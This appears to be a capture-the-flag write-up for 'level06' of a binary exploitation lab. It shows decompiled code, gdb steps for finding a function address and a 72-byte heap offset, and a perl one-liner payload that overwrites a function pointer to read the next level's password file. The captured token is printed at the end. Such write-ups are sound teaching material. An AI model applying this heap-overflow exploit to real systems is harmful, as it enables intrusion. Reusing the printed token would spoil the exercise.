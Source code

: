 # level06

1. Decompilation with Ghidra

    The binary contains:

    ```c
    void main(undefined4 param_1,int param_2)
    {
        char *__dest;
        undefined4 *puVar1;
        
        __dest = (char *)malloc(0x40);
        puVar1 = (undefined4 *)malloc(4);
        *puVar1 = m;
        strcpy(__dest,*(char **)(param_2 + 4));
        (*(code *)*puVar1)();
        return;
    }
    ```

    ```c
    void n(void)
    {
        system("/bin/cat /home/user/level7/.pass");
    }
    ```

    ```c
    void m(void)
    {
        puts("Nope");
    }
    ```

2. Analysis of the vulnerability

    The vulnerability:
    - The function `n()` allows reading the next level's password.
    - Buffer overflow in `strcpy(__dest, argv[1])` allows overwriting the function pointer `*puVar1`.
    - By default, `*puVar1` points to `m()`, but we can overwrite it to point to `n()`.

3. Finding the n() address

    Using gdb to find the `n()` address:

    ```bash
    gdb ./level6

    (gdb) info address n
    Symbol "n" is at 0x08048454
    ```

4. Finding the offset

    We need to find the offset between the two malloc'd buffers:

    ```bash
    gdb -q ./level6
    
    (gdb) disassemble main #to finds the malloc calls
    (gdb) [...]
    (gdb) 0x0804848c <+16>:    call   0x8048350 <malloc@plt>
    (gdb) 0x08048491 <+21>:    mov    %eax,0x1c(%esp) #here
    (gdb) 0x08048495 <+25>:    movl   $0x4,(%esp)
    (gdb) 0x0804849c <+32>:    call   0x8048350 <malloc@plt>
    (gdb) 0x080484a1 <+37>:    mov    %eax,0x18(%esp) #here
    (gdb) [...]

    (gdb) break *0x08048491 #just after malloc
    (gdb) break *0x080484a1 #just after malloc
    (gdb) run AAAA
    
    # At first breakpoint:
    (gdb) print/x $eax
    # Output: 0x0804a008 (addr_dest)
    (gdb) continue
    
    # At second breakpoint:
    (gdb) print/x $eax
    # Output: 0x0804a050 (addr_puVar1)
    (gdb) p/x 0x0804a050 - 0x0804a008
    # Output: 0x48 = 72 bytes
    ```

5. Exploitation

    Build the payload with 72 bytes of padding + address of `n()` in little-endian:

    ```bash
    ./level6 "$(perl -e 'print "A"x72 . "\x54\x84\x04\x08"')"
    
    # Output: f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
    ```

6. Token discovered

    The token is: `f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d`
